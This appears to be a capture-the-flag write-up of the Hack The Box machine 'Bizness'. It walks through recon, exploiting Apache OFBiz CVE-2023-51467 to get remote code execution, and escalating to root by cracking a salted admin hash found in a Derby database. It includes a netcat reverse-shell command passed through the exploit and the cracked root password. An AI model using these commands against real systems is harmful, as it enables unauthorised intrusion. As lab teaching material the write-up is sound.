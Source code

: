 # Bizness
Hello, today we will be taking on Bizness, an easy box from HTB.
- [Recon](https://github.com/0x7ax/Bizness?tab=readme-ov-file#recon)
- [Exploit | Initial foothold](https://github.com/0x7ax/Bizness?tab=readme-ov-file#exploit--initial-foothold)
- [Privesc](https://github.com/0x7ax/Bizness?tab=readme-ov-file#privesc)
- [Conclusion](https://github.com/0x7ax/Bizness?tab=readme-ov-file#conclusion)
# Recon
We start with an nmap scan:

`$ nmap -sC -sV -oN nmap/Bizness 10.10.11.252`

![nmap result](https://github.com/0x7ax/Bizness/assets/91915054/59b24c86-a247-457d-9b49-b92a9241043a)
Found SSH, HTTP, and HTTPS

Since we found a hostname, we can add it to /etc/hosts using the following command:

`$ sudo echo “10.10.11.252 bizness.htb” >> /etc/hosts`

Followed HTTPS, found the following on the homepage:
- Address: A108 Adam Street, NY 535022, USA
- Phone #: +1 5589 55488 55
- Email: info@bizness.htb
  
Doesn't seem to take us anywhere.

Then did a gobuster to see if there are any other directories:

`$ gobuster dir -u https://bizness.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --wildcard -k`

I used the flags “--wildcard” and “-k” to avoid errors. Oddly, the sizes were 0 but if we got a redirection then that means we got a valid directory.

Furthermore, we found a /webtools directory that isn't default on all sites, so we can check it out

Turns out it's an Apache OFBiz portal with the version down on the right (18.12)

![OFBiz portal](https://github.com/0x7ax/Bizness/assets/91915054/07a3e27b-7ae1-488d-ae14-52bd9cd5101e)

A quick Google search tells us that it's vulnerable to CVE-2023-51467, which is an interesting vulnerability that will grant us RCE. Feel free to read about it more [here](https://nvd.nist.gov/vuln/detail/CVE-2023-51467)

# Exploit | Initial foothold

I found an exploit online that will run a command on the vulnerable service, hoping that I can get a reverse shell back 

I used [exploit.py](exploit.py), creds go to the owner. 

*Change to your desired ip and port*

- Set up a listener

`$ nc -lvnp [port]`

- Run the following command

`$ python3 exploit.py --url https://bizness.htb --cmd "nc -c sh [ip] [port]"`

![exploit](https://github.com/0x7ax/Bizness/assets/91915054/b63c4476-d35a-46b2-b7f8-dcf9de4b8caa)

We got a reverse shell! Now we have to stabilize it

`$ python3 -c ‘import pty;pty.spawn("/bin/bash")’`

Ctrl+Z

`$ stty raw -echo`

`$ fg` (click Enter twice here)

`$ export TERM=xterm`

Now, you have a full shell.

![stable](https://github.com/0x7ax/Bizness/assets/91915054/cc9eb29b-ce87-4b0a-ae0f-ad475c522e57)

We have spawn in /opt/ofbiz, which is an interesting directory, but first let's grab user.txt from /home/ofbiz

a quick command tells us that only ofbiz and root have shells so it only makes sense that ofbiz has the user.txt file

`$ cat /etc/passwd | grep bash`

![user.txt](https://github.com/0x7ax/Bizness/assets/91915054/1f0479a0-c4b8-40dc-b0fe-af927b5a9e38)

# Privesc

First, I ran linpeas.sh, which didn't tell me much except for the files in /opt/ofbiz

So I digged deeper and found an interesting file that has a SHA1 hash. 

![AdminUserLoginData.xml](https://github.com/0x7ax/Bizness/assets/91915054/7111be9a-b8c2-45e8-bf11-bf7bf56f4c0b)

We found a SHA1 hash: 47ca69ebb4bdc9ae0adec130880165d2cc05db1a

The problem with that hash is that it needs a salt which doesn't appear in the file

With more recon, we found an Apache Derby database which has the salt for the hash above

![derby database](https://github.com/0x7ax/Bizness/assets/91915054/b3e88449-f7be-442b-a060-25044556f1e5)

We can see that the hash for user admin is $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I

We can crack this using john or hashcat, but a more efficient way would be to use a script that encrypts the contents of rockyou.txt and compare it to the string we have

For that I used the following python script which I found online: [pass.py](pass.py), also credits go to the owner

![pass.py](https://github.com/0x7ax/Bizness/assets/91915054/9883b0a3-0794-4eec-880a-b26041ff0c44)

 We got a hit, *monkeybizness*
 
 Use the following command and enter the password above to get root access
 
 `$ su root` 
 
 ![root](https://github.com/0x7ax/Bizness/assets/91915054/b34f5cf9-b38d-45e1-b00a-dd132ac78d69)
 
# Conclusion
Bizness was an easy HTB box that has a vulnerable OFbiz service which leads to RCE. 

This is for educational purposes only
